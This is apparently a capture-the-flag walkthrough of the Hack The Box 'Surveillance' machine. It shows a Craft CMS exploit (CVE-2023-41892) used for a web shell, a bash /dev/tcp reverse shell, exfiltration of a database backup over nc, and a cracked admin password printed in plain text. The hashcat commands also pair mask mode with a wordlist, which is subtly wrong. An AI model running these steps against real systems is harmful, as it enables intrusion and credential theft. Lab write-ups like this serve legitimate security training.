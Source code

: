 # Surveillance

Difficulty Medium 

## Enumeration

```
nmap --vv -sS -sCV -p- --min-rate 5000 -oX 10.10.11.245.xml 10.10.11.245
```

| Port | Service | Info |
| ---- | ----	 | ---- |
| 22 | ssh | |
| 80 | http | http-title: Did not follow redirect to http://surveillance.htb/ |

Adding the domain to hosts

```
echo '10.10.11.245 surveillance.htb' | sudo tee -a /etc/hosts
```

Footer-Section reveals Versionnumber of CMS. Following the link and selecting the register-tab Security show serveral issues. 
```
<!-- footer section -->
  <section class="footer_section">
    <div class="container">
      <p>
        &copy; <span id="displayYear"></span> All Rights Reserved By
        SURVEILLANCE.HTB</a><br> <b>Powered by <a href="https://github.com/craftcms/cms/tree/4.4.14"/>Craft CMS</a></b>
      </p>
    </div>
  </section>
```

## Foothold

For the Critical issue with the CVE-2023-41892 a poc can be found:

https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

There are other POC which are similar but haven't worked for me very well.
The main change is at the writePayloadToTempFile Function:
```
 response = requests.post(url, headers=headers, data=data, files=files) 
```

Instead of files=files is a proxy used. So check if you got the right one and not the forked poc. 

Exploit using poc:
```
python3 poctest.py http://surveillance.htb
[-] Get temporary folder and document root ...
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Start listener on attacker
```
nc -nlvp 1337
```

Upgrading this webshell 
```
$ bash -c "bash -i >& /dev/tcp/10.10.14.13/1337 0>&1"
```

Copy the backup file surveillance--2023-10-17-202801--v4.4.14.sql.zip (~/html/craft/storage/backups)

Starting listener on attacker machine
```
nc -nlp 1338 > backup.zip
```

Tranfering file using nc from vitcim
```
nc -w 3 10.10.14.13 1338 < surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

In this backup we can find the hash for Matthew:
```
'Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'
```

Cracking the hash, hashcat or just use crackstation.net
```
echo '39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec' > hash.txt

hashcat --identify hash.txt
The following 8 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   1400 | SHA2-256                                                   | Raw Hash
  17400 | SHA3-256                                                   | Raw Hash
  11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian           | Raw Hash
   6900 | GOST R 34.11-94                                            | Raw Hash
  17800 | Keccak-256                                                 | Raw Hash
   1470 | sha256(utf16le($pass))                                     | Raw Hash
  20800 | sha256(md5($pass))                                         | Raw Hash salted and/or iterated
  21400 | sha256(sha256_bin($pass))                                  | Raw Hash salted and/or iterated

hashcat -m 1400 -a 3 hash.txt /usr/share/wordlists/rockyou.txt
....
hashcat -m 1400 -a 3 hash.txt /usr/share/wordlists/rockyou.txt --show
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```

Login using the credentials we have cracked and get the user-flag.

